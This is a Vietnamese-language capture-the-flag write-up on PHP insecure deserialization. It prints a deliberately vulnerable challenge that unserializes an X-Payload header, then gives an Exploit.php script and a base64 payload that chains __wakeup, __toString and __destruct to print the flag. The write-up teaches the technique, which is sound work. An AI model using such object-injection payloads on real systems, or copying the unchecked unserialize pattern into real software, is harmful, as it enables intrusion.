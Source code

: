 # Insecure deserialization

## Source

```
<?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}

?>
```

## Solution

Nhìn vào source code ta có thể thấy để lấy được flag :
- Cần truyền vào tham số cleanup với giá trị là flag , tuy nhiên nó sẽ bị hàm **__consturct()** chặn lại và in ra 'NO' bởi hàm die().
- Trong trường hợp vượt qua được hàm **__construct()** phía trên ta cần có printflag=true để có thể in ra flag và để gán lại giá trị true cho biến này ta cần gọi đến hàm **__toString()** trong hàm Y.

Để thỏa mãn tất cả, ý tưởng sẽ là:
- Gọi hàm **__toString()** trong func Y, để gọi được hàm này ta cần khởi tạo payload với hai func Y lồng nhau.
```
$exploit = new Y(new Y('flag'));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";s:4:"flag";}}  
```
Ở đây ta sẽ giả sử truyền vào func Y biến 'flag' , func Y đầu tiên sẽ gọi đến hàm **__wakeup()** , sau đó func Y lồng vào tiếp theo sẽ gọi đến hàm **__toString()** để gán $printflag=true .

- Việc tiếp theo sẽ là lồng vào func X với tham số 'flag' được truyền vào.
```
$exploit = new Y(new Y(new X('flag')));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}}
```
Việc lồng ghép này sẽ khiến hàm X gặp lỗi và gọi đến **__destruct()** mà bỏ qua hàm **__construct()** , điều này dẫn đến việc hai lệnh if được thực hiện và in ra đồng thời 'No!' và flag.
   

Exploit.php

```
<?php
class X{
	function __construct($cleanup){
    	$this->cleanup = $cleanup;
        }
}

class Y{
	function __construct($secret){
    	$this->secret = $secret;
    }
}
$exploit = new Y(new Y (new X('flag')));

echo base64_encode(serialize($exploit));
?>
// TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJYIjoxOntzOjc6ImNsZWFudXAiO3M6NDoiZmxhZyI7fX19

```

Cụ thể thứ tự gọi các magic method sau khi unserialize sẽ như sau :

1. Trước tiên khi bước vào quá trình unserialize method **__weakup()** sẽ được gọi đến làm nhiệm vụ echo ra biến *secret* (lúc này là 'flag').
2. Tiếp theo nó sẽ di chuyển xuống và gọi đến method **__toString()** tại đây $printflag sẽ được gán lại thành true khong những vậy nó còn trả về class X với đối số $cleanup được gán bằng địa chỉ của $secret (lúc này $cleanup='flag').
3. Ở bước cuối cùng nó sẽ gọi đến method **__destruct()** trong X , do $cleanup = 'flag' nên 'No!' sẽ được in ra bởi lệnh if đầu và $printflag=true dẫn đến việc $FLAG được in ra .

![img](img/img14.png)

Cuối cùng ta sẽ gửi lên header X_PAYLOAD bao gồm mã base64 exploit phía trên , có nhiều cách để thực hiện công việc này ở đây mk dùng curl .

Result:

![img](img/img7.png)

Nhìn vào kết quả ta có thể thấy 'flag' in ra chứng tỏ **__wakeup()** được gọi , 'No!' và flag được in ra chứng tỏ hàm **__destruct()** được thực thi ...





